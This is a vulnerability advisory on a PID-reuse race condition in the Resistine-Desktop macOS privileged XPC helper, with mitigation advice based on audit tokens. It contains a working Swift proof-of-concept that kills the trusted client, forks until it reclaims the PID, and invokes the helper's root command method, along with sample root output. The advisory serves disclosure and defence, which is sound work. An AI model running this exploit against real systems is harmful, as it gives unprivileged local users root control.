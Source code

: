 # Local Privilege Escalation via XPC Race Condition

## Description

A local privilege escalation vulnerability exists in the privileged helper of Resistine-Desktop.
The helper attempts to authenticate XPC clients by checking their PID (connection.processIdentifier) and retrieving code signing information based on that PID.
This approach is insecure because PIDs are recycled on macOS. An attacker can exploit a race condition between the PID check and process reuse to impersonate the legitimate client and gain access to privileged XPC methods.


## Technical Details

The [helper](https://github.com/Resistine/Resistine-Desktop/blob/db78f7a2e0af0137db8f7455a9f7c25f9d38397a/apple_helper/main.swift) implements `listener:shouldAcceptNewConnection:` and calls a custom function such as:

```swift
private func isValidClient(connection: NSXPCConnection) -> Bool {
    return CodesignCheck.codeSigningMatches(pid: connection.processIdentifier)
}
```

This approach is insecure because macOS reuses process IDs. When a legitimate client connects and exits, its PID may be reassigned to a new, unrelated process. If the helper performs its code signature verification after the original process has exited, it may unknowingly inspect the code signature of the newly spawned process instead. This opens a race window in which a local attacker can launch a malicious process that inherits the PID of a trusted client and bypass the helper's authentication.

Although the XPC system maintains a secure auditToken tied to the original client process, this helper ignores it entirely. As a result, the authentication is based on mutable process state instead of immutable cryptographic identity. An attacker who wins the race can invoke any of the exported privileged methods including root command execution. 

## Proof-of-Concept

```swift
// Exploit PoC for XPC Race Condition (PID reuse attack)
// Target: Helper authenticates using connection.processIdentifier (PID)
// Goal: Gain access to privileged methods by PID spoofing

import Foundation
import Darwin

let targetService = "com.resistine.helper"
let trustedAppPath = "/Applications/Resistine.app" // location of the app

// MARK: - Launch trusted client and capture its PID
func launchTrustedClient() -> pid_t? {
    let process = Process()
    process.executableURL = URL(fileURLWithPath: "\(trustedAppPath)/Contents/MacOS/Resistine")
    do {
        try process.run()
        print("[+] Launched trusted client with PID \(process.processIdentifier)")
        return process.processIdentifier
    } catch {
        print("[-] Failed to launch trusted client: \(error)")
        return nil
    }
}

// MARK: - Wait for PID to be freed
func waitForProcessToExit(pid: pid_t) {
    print("[*] Waiting for PID \(pid) to exit...")
    while kill(pid, 0) == 0 {
        usleep(100_000) // 100ms
    }
    print("[+] PID \(pid) is now free for reuse")
}

// MARK: - Spray processes to get same PID
func sprayUntilPidMatches(targetPid: pid_t, maxAttempts: Int = 5000) -> pid_t? {
    for _ in 0..<maxAttempts {
        let pid = fork()
        if pid == 0 {
            // Child process
            if getpid() == targetPid {
                print("[+] Reused PID \(targetPid)! Launching XPC connection...")
                runXPCExploit()
            }
            exit(0)
        } else if pid > 0 {
            waitpid(pid, nil, 0) // Reap child
        }
    }
    print("[-] Failed to reclaim PID \(targetPid) after \(maxAttempts) attempts")
    return nil
}

// MARK: - XPC Connection Attempt
@objc protocol HelperToolProtocol {
    func runCommand(command: String, withReply reply: @escaping (String) -> Void)
}

func runXPCExploit() {
    let conn = NSXPCConnection(machServiceName: targetService, options: .privileged)
    conn.remoteObjectInterface = NSXPCInterface(with: HelperToolProtocol.self)

    conn.resume()
    let proxy = conn.remoteObjectProxyWithErrorHandler { error in
        print("[-] XPC error: \(error)")
        exit(1)
    } as? HelperToolProtocol

    proxy?.runCommand(command: "id") { output in
        print("[+] Exploit succeeded, output: \n\(output)")
        exit(0)
    }
    RunLoop.main.run()
}

// MARK: - Main Flow
if let victimPid = launchTrustedClient() {
    sleep(2) // Give it time to connect to helper
    kill(victimPid, SIGKILL)
    waitForProcessToExit(pid: victimPid)
    sprayUntilPidMatches(targetPid: victimPid)
} else {
    print("[-] Could not start trusted client")
    exit(1)
}
```

example output:

```sh
[*] Connected to helper — attempting privilege escalation…
[+] Output from helper:
uid=0(root) gid=0(wheel) groups=0(wheel),...
```

## Impact

Any local unprivileged user may escalate privileges to root by exploiting the race condition in PID-based client validation.
Because the helper exports sensitive methods such as arbitrary shell execution, successful exploitation leads to full system compromise.

## Mitigation

- Do not rely on PID validation,
- use the audit token provided by NSXPCConnection.withAuditToken, which is cryptographically tied to the origin of the connection and cannot be forged or reused by another process,
- verify the connecting client’s code signing identity and team identifier via SecCodeCopySigningInformation using the audit token, not the PID,
- limit exposed methods to the minimum set required, and avoid arbitrary shell execution.

### References

- https://github.com/Resistine/Resistine-Desktop/issues/6


